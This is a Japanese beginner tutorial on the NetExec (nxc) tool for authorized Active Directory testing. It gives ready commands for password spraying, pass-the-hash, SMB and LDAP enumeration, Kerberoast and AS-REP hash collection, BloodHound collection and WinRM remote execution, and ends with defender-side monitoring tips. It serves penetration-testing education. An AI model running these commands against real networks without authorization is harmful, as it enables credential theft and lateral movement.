





## TL;DR

`NetExec`（`nxc`）は、内部ネットワークや Active Directory 評価で使う高速な検証・列挙フレームワークです。`smb`、`ldap`、`winrm` など複数プロトコルを同じ操作感で扱えるため、調査から有効認証情報の検証、次の行動決定までを一貫して進められます。初心者にとっての最大の利点は「コマンド体系の統一」で、基本パターンを覚えると実戦投入しやすい点です。

---

## NetExec でできること

| 機能 | 実務上の意味 |
|---|---|
| マルチプロトコル運用 | SMB/LDAP/WinRM を同じCLIパターンで扱える |
| 認証情報の横断検証 | どのホストで資格情報が通るかを素早く把握 |
| SMB/LDAP/WinRM 列挙 | ホスト情報とAD情報を同じツールで収集 |
| スプレー制御 | 失敗回数を制限してロックアウトリスクを下げる |
| リモートコマンド実行 | 権限があれば即時に検証実行できる |
| モジュール機構 | 目的別の追加処理を同一ワークフローで実行 |
| ログ化しやすい出力 | 再現可能な手順書・報告書を作りやすい |

---

## NetExec でできないこと

| 制限 | 理由 |
|---|---|
| 単体でAD経路分析を完結させること | 深い権限経路分析は BloodHound など併用が現実的 |
| ロックアウト回避を自動保証すること | 無計画なスプレーは依然として危険 |
| 認証成功=管理者実行を保証すること | ログイン可でも実行権限がないケースは多い |
| 高ノイズ操作を隠蔽すること | 実行系やダンプ系は検知されやすい |
| 無許可環境で安全に使うこと | 攻撃系ツールのため適法なスコープ前提 |

---

## 基本の考え方

`nxc` の基本形は次のとおりです。

```bash
nxc <protocol> <target(s)> [auth] [action/options]
```

初心者向けの実践フローは以下です。

1. 到達可能ホストとサービス面を把握する。
2. 認証情報（平文/ハッシュ）を安全に検証する。
3. 有効ホストで必要な列挙を行う。
4. 権限がある場所だけ実行を行う。
5. 結果を記録して次のピボットを決める。



---

## Step 0: 本番前に必ずやる安全設定

本番系で広範囲に認証試行を行う前に、まずロックアウトポリシーを確認してください。初心者が最も事故を起こしやすいポイントは、ユーザー名とパスワードの組み合わせを一気に投げることです。NetExec には失敗回数を制限するオプションがあるため、必ず併用します。

```bash
nxc smb 10.10.10.10 -u 'auditor' -p 'LabPassword!23' --pass-pol
```

```bash
nxc smb targets.txt -u users.txt -p passwords.txt --gfail-limit 5 --ufail-limit 2 --fail-limit 3 --jitter 2
```

---

## Step 1: SMB で最初の地図を作る

AD環境では、SMB の初期調査が全体像把握に最も効率的です。ホストの生存、OS情報、ドメイン情報、SMB Signing 状況など、次の行動に直結する情報を短時間で得られます。まずは低負荷で広く確認し、深掘り対象を絞ります。

```bash
nxc smb targets.txt
```

リレー観点の評価が必要な場合は、SMB Signing 未必須ホストの一覧を生成できます。これは攻撃にも防御報告にも有用ですが、必ず許可範囲でのみ実施してください。

```bash
nxc smb targets.txt --gen-relay-list no_signing_hosts.txt
```



---

## Step 2: 認証情報とハッシュを検証する

候補認証情報が得られたら、先に「どこで通るか」を広く確認します。これにより、効果の低い深掘りを避け、権限があるホストに集中できます。最初は単一クレデンシャルから始めて、ロックアウトを見ながら段階的に広げるのが安全です。

```bash
nxc smb targets.txt -u 'jane.doe' -p 'Winter2026!' --continue-on-success
```

Pass-the-Hash 検証では NTLM ハッシュを直接指定します。平文パスワードが不明な横展開で特に有効です。

```bash
nxc smb targets.txt -u 'administrator' -H '<NTHASH>' --continue-on-success
```

ローカル管理者使い回しを確認する場合は、ドメイン認証ではなくローカル認証を明示します。

```bash
nxc smb targets.txt --local-auth -u 'administrator' -p 'P@ssw0rd!'
```



---

## Step 3: 初心者が優先すべき SMB 列挙

認証成功後は、即使える情報に絞って列挙するのが効率的です。共有、ユーザー/グループ、パスワードポリシーは、攻撃経路と防御上の弱点を同時に見せてくれます。闇雲に全オプションを実行するより、目的ごとに段階的に取る方が失敗しません。

```bash
nxc smb 10.10.10.20 -u 'jane.doe' -p 'Winter2026!' --shares
```

```bash
nxc smb 10.10.10.10 -u 'jane.doe' -p 'Winter2026!' --users
```

```bash
nxc smb 10.10.10.10 -u 'jane.doe' -p 'Winter2026!' --groups 'Domain Admins'
```

```bash
nxc smb 10.10.10.10 -u 'jane.doe' -p 'Winter2026!' --pass-pol
```

---

## Step 4: LDAP 列挙と Roasting の準備

LDAP モードは、SMB よりも AD オブジェクト情報を整理して取得しやすいのが利点です。ユーザー、グループ、DC、SID を取得して環境理解を進め、スコープ内なら Kerberoast / AS-REP roast の収集に進みます。この段階で命名規則や特権境界がかなり見えてきます。

```bash
nxc ldap 10.10.10.10 -u 'jane.doe' -p 'Winter2026!' --users --groups --dc-list --get-sid
```

オフラインクラック用の材料は以下で収集できます。

```bash
nxc ldap 10.10.10.10 -u 'jane.doe' -p 'Winter2026!' --kerberoasting kerberoast_hashes.txt
```

```bash
nxc ldap 10.10.10.10 -u 'jane.doe' -p 'Winter2026!' --asreproast asrep_hashes.txt
```

権限経路分析用に BloodHound 収集を同じツールチェーンで実行することも可能です。

```bash
nxc ldap 10.10.10.10 -u 'jane.doe' -p 'Winter2026!' --bloodhound -c All
```



---

## Step 5: WinRM で実行可否を確認する

WinRM は企業環境でよく使われる正規管理チャネルです。まずアクセス可否を確認し、次に `whoami` や `hostname` など低リスクコマンドで実行文脈を確認します。最初から重い処理を行わず、段階的に進めることでノイズと事故を減らせます。

```bash
nxc winrm targets.txt -u 'jane.doe' -p 'Winter2026!'
```

```bash
nxc winrm 10.10.10.30 -u 'administrator' -H '<NTHASH>' -x 'whoami && hostname'
```

```bash
nxc winrm 10.10.10.30 -u 'administrator' -H '<NTHASH>' -X 'Get-Process | Select-Object -First 5'
```

---

## Step 6: モジュール活用の基本

モジュールは強力ですが、初心者ほど「オプション確認→小範囲実行」を徹底してください。まず一覧を見て、対象モジュールの引数を確認し、単一ホストで検証してから展開するのが安全です。これだけで不要な影響をかなり減らせます。

```bash
nxc smb 10.10.10.20 -u 'jane.doe' -p 'Winter2026!' -L
```

```bash
nxc smb 10.10.10.20 -u 'jane.doe' -p 'Winter2026!' -M <module_name> --options
```

```bash
nxc smb 10.10.10.20 -u 'administrator' -H '<NTHASH>' -M <module_name> -o KEY=VALUE
```



---

## 初心者がハマりやすいポイント

| 失敗例 | 改善策 |
|---|---|
| スプレーを急ぎすぎる | `--gfail-limit` `--ufail-limit` `--fail-limit` `--jitter` を必ず設定 |
| 認証成功を管理者権限と誤解する | `-x whoami` などで実行権限を別途確認 |
| いきなり広範囲モジュール実行 | 単一ホストで事前検証してから拡大 |
| プロトコルの使い分け不足 | SMB=共有/ホスト、LDAP=AD情報、WinRM=実行確認で整理 |
| 記録不足 | 実行コマンド、成功条件、対象、時刻を都度保存 |

---

## 防御側視点の補足

- 単一送信元から多数ホストへの連続認証試行を監視する。
- スプレー直後の SMB/WinRM 実行パターンを相関で見る。
- LDAP の短時間大量クエリを検知対象にする。
- 可能な範囲で SMB Signing と適切なロックアウトポリシーを適用する。
- 資格情報の使い回しを減らし、管理者権限を階層分離する。

---

## References

- [NetExec Wiki](https://www.netexec.wiki/)
- [NetExec GitHub](https://github.com/Pennyw0rth/NetExec)
- [MITRE ATT&CK: Valid Accounts (T1078)](https://attack.mitre.org/techniques/T1078/)
- [MITRE ATT&CK: Remote Services (T1021)](https://attack.mitre.org/techniques/T1021/)
- [MITRE ATT&CK: SMB/Windows Admin Shares (T1021.002)](https://attack.mitre.org/techniques/T1021/002/)
